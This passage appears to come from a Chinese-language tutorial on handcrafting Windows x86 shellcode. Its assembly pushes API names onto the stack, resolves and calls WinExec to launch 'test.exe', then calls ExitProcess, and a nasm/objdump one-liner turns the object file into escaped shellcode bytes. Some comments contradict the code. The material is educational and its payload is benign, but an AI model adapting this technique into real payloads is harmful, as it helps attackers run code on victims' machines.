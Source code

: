 ##### 查找system函数，并调用该函数运行

```asm
; Create string 'WinExec\x00' on the stack and save its address to the stack-frame
mov edx, 0x63657878     ; "cexx"
shr edx, 8              ; Shifts edx register to the right 8 bits
push edx                ; "\x00,cex"
push 0x456E6957         ; EniW : 456E6957
mov [ebp+0x18], esp     ; save address of string 'WinExec\x00' to the stack-frame
call findFunctionAddr   ; After Return EAX will = &WinExec

; Call WinExec( CmdLine, ShowState );
;   CmdLine   = "tset.exe"
;   ShowState = 0x00000000 = SW_HIDE - Hides the window and activates another window.
xor ecx, ecx          ; clear eax register
push ecx              ; string terminator 0x00 for "test.exe" string
push 0x6578652e       ; exe. : 6578652e
push 0x74736574       ; tset : 74736574
mov ebx, esp          ; save pointer to "test.exe" string in eax
inc ecx               ; uCmdShow SW_SHOWNORMAL = 0x00000001
push ecx              ; uCmdShow  - push 0x1 to stack # 2nd argument
push ebx              ; lpcmdLine - push string address stack # 1st argument
call eax              ; Call the WinExec Function
```

##### 调用ExitProcess退出

```asm
; Create string 'ExitProcess\x00' on the stack and save its address to the stack-frame
 xor ecx, ecx          ; clear eax register
 mov ecx, 0x73736501     ; 73736501 = "sse",0x01 // "ExitProcess",0x0000 string
 shr ecx, 8              ; ecx = "ess",0x00 // shr shifts the register right 8 bits
 push ecx                ;  sse : 00737365
 push 0x636F7250         ; corP : 636F7250
 push 0x74697845         ; tixE : 74697845
 mov [ebp+0x18], esp     ; save address of string 'ExitProcess\x00' to stack-frame
 call findFunctionAddr   ; After Return EAX will = &ExitProcess

; Call ExitProcess(ExitCode)
 xor edx, edx
 push edx                ; ExitCode = 0
 call eax                ; ExitProcess(ExitCode)
```

##### 将汇编指令转化成shellcode

```bash
nasm -f win32 win32-download-execute.asm -o win32-download-execute.o
for i in $(objdump -D win32-download-execute.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```

编写C语言代码，测试结果
